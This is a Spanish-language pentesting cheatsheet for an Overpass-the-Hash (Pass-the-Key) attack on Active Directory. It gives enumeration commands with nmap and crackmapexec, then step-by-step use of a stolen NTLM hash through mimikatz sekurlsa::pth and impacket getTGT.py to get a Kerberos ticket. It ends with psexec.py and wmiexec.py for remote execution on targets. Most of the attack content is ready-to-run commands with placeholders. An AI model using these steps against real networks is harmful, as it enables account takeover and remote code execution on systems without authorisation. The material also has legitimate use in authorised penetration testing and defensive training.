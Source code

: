 **\[Overpass-the-Hash Cheatsheet]**

---

**Escenario**: Autenticación contra servicios Kerberos (WinRM, SMB, RDP) utilizando el hash NTLM para solicitar un TGT.

**Requisitos Previos**:

* Hash NTLM de un usuario de dominio (obtenido con mimikatz, responder, etc.).
* Nombre del dominio y del usuario asociado al hash.
* Acceso a la red del controlador de dominio (DC).
* El hash debe ser del tipo NTLM (no solo LM).

---

**Enumeración del Entorno**:

* Identificar el DC:

  ```bash
  nmap -p 88,445,389 <target-range>
  crackmapexec smb <target-range> --users
  ```
* Validar que el hash es de un usuario del dominio:

  ```bash
  crackmapexec smb <ip_dc> -u <user> -H <hash>
  ```
* Confirmar acceso a puertos Kerberos y WinRM:

  ```bash
  nmap -p 88,5985 <target>
  ```

---

**Explotación (Overpass-the-Hash)**:

* Obtener un TGT con `mimikatz` (desde Windows):

  ```text
  sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>
  ```

  Esto inicia una sesión con TGT en memoria.

* Usar `impacket-getTGT` (desde Kali):

  ```bash
  getTGT.py <domain>/<user> -hashes :<NTLM_hash>
  ```

  Esto genera un archivo `.ccache` para Kerberos.

* Usar ticket Kerberos con `psexec.py`, `wmiexec.py`, etc.:

  ```bash
  export KRB5CCNAME=<user>.ccache
  psexec.py <domain>/<user>@<target>
  ```

---

**Notas Adicionales**:

* Solo funciona si el usuario tiene permitido solicitar TGT.
* Credential Guard puede impedir uso de TGT en memoria.
* Overpass-the-Hash = Pass-the-Key (nombre alternativo).

---

**Herramientas Recomendadas**:

* Mimikatz (Windows)
* Impacket (`getTGT.py`, `psexec.py`, `wmiexec.py`)
* CrackMapExec (para validación y acceso remoto)
* Kerberos tooling: `klist`, `kinit`, `export KRB5CCNAME`
